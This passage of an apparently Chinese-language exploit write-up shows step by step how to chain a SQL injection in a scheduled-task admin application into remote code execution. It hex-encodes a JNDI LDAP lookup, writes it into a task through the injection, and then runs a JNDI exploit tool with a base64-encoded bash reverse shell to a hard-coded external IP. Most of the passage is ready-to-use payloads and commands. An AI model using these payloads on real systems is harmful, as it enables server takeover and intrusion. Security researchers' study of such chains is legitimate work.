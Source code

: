 

![image-20240907022631963](https://img-blog.csdnimg.cn/img_convert/ef36be7ed0da6fa8a674bc4780f66925.png)

payload中的sql语句以及被执行，作用是修改id为1的计划任务的值为test~。验证成功



![image-20240907022655650](https://img-blog.csdnimg.cn/img_convert/3a16c515d0a901dee58d991774e00e23.png)

==第二步是计划任务命令执行==

开启监听验证漏洞 payload：

```has-numbering
javax.naming.InitialContext.lookup('ldap://124.71.147.99:1717')

```

将上面的payload进行十六进制编码：

```has-numbering
0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3132342E37312E3134372E39393A313731372729

```

将编码后的payload带入下面的payload中：

```has-numbering
genTableServiceImpl.createTable('UPDATE sys_job SET invoke_target = 0x6A617661782E6E616D696E672E496E697469616C436F6E746578742E6C6F6F6B757028276C6461703A2F2F3132342E37312E3134372E39393A313731372729 WHERE job_id = 2;')

```

上面payload的作用是利用之前的sql注入漏洞，修改job_id为2的计划任务内容，将该计划任务执行的命令改为我们构造好的payload。



![image-20240907023130407](https://img-blog.csdnimg.cn/img_convert/6c98133f6d06e934274c9fc9c96c84a4.png)



![image-20240907023202151](https://img-blog.csdnimg.cn/img_convert/3e6ba188a7b285079aa5f82815f32449.png)

更多操作->执行一次id为2的任务，收到监听



![image-20240907023310115](https://img-blog.csdnimg.cn/img_convert/1b53a018da90429e605123e57ae1aae9.png)

rce可行。我们接下来使用JNDI反弹shell。

先下好工具：https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/releases

```has-numbering
java -jar JNDI-Injection-Exploit-Plus-2.5-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuNzEuMTQ3Ljk5LzE3MTcgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 124.71.147.99

```
